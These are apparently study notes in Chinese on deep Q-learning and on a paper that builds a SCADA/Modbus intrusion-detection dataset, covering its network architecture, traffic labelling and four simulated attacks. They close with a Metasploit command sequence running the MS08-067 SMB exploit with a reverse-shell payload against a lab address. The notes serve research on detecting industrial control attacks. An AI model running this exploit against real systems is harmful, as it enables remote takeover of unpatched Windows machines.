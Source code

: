 不要求预先给定数据，而是通过环境对动作的奖励更新参数

- DQN：深度强化学习
  Q-learning：$Q(s,a)$代表状态s下进行动作a的奖励，现在希望通过深度神经网络得到$f(s,a,w)\approx Q(s,a)$，即Q的拟合，解决状态和行为过多问题



#### Q2：SCADA网络数据集 论文里面要重点关注它构造的这个数据集的采集模型是什么，以及可能的复现方案

采集模型：即1）它的工控网络架构；2）如何构造数据，以及构造了哪些类的数据3）如何采集（可能的实现方案）

##### 工控网络架构

三个级别：
2级：SCADA控制系统
1级：现场设备，如传感器、执行器、控制器RTU
0级：物理过程

每个操作站（Operator Workstation）使用SCADA软件，包括主终端单元MTU和人机界面HMI。

MTU对每个RTU（Controller，控制器）轮询，每隔几秒发送一次Modbus请求控制器状态，每个RTU控制多个现场设备（Field Device）

HMI给操作员可视化物理过程状态，操作员可以通过HMI给控制器发送Modbus写请求，改变现场设备状态。控制器改变设备状态后回复响应报文

##### 挑战

（1）在常规轮询之间插入恶意流量，攻击很容易发现

（2）数据报的内容受系统属性、噪声的影响。解决方法：在模拟器中加入熵。每个控制器测量三个分支的电压，通过改变断路器，来改变Modbus响应报文中的测量值，更加真实

（3）如何标记恶意流量？如果数据报属于一个恶意会话，则标记为恶意。例如包含漏洞的数据报标记为恶意，为了发送漏洞而首先发送的SYN连接数据报也标记为恶意，虽然它本身没包含恶意行为

##### 构造数据

MTU使用ScadaBR（SCADA系统软件）实现，RTU使用modbus_tk（Python包）实现，用于正常的轮询。

每个控制器运行相同的物理系统，用1~4四值代表断路器的状态

##### 4种攻击

首先建立一个Metasploit枢纽点（在被破坏的机器上添加了一个额外的网卡），并通过枢轴点发起攻击。
（1）第一次攻击，受感染的计算机会远程攻击第二个控制器
（2）上传新的恶意软件
（3）指纹识别攻击：发送连续读取数据包收集信息
（4）发送未授权命令

- 使用Scapy编程攻击
- 使用Kali Metasploit填写数据报载荷

```sh
msfconsole
search ms08_067
use exploit/windows/smb/ms08_067_netapi
show targets # 查看能攻击的系统
set payload generic/shell_reverse_tcp
show options # 查看需要填写的内容
set RHOST 192.168.10.130
exploit # 必须是xp英文版才能攻击成功
```
